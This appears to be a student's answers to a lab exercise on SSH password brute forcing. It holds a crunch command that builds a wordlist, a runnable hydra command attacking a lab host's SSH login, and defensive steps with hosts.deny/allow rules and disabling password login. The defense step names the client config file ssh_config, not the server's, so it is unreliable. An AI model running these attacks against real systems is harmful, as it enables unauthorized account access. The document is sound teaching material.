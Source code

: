 ex1:
the scripts are in git/cyber/src/brute_force

ex2:
crunch 2 2 -t dd -p liby noam > dict.txt &&  crunch 3 3 -t ddd -p liby noam 1303 >> dict.txt

ex3:
### -l is a static username because we only brute force the passwords, -t is the number of threads ###
hydra -l schorot -P passwords_dic.txt 10.1.0.138 ssh -t 4

ex4:
using more threads with hydra would make the brute force faster.
the limit is the ssh configuratin in the victim's machine, that defines maximum number of connections.

ex5:
go to file /etc/hosts.deny and write the following rule:
ALL: ALL
go to file /etc/hosts.allow and write the following rule:
ALL: 192.168.64.0/255.255.255.0, 193.76.136.209/255.255.255.240
להוסיף שם את אלו שאתה כן מאשר להם להתחבר
way 2:
prevent password authentication in ssh config file/etc/ssh/ssh_config
and reload and restart ssh so the changes will take effect.
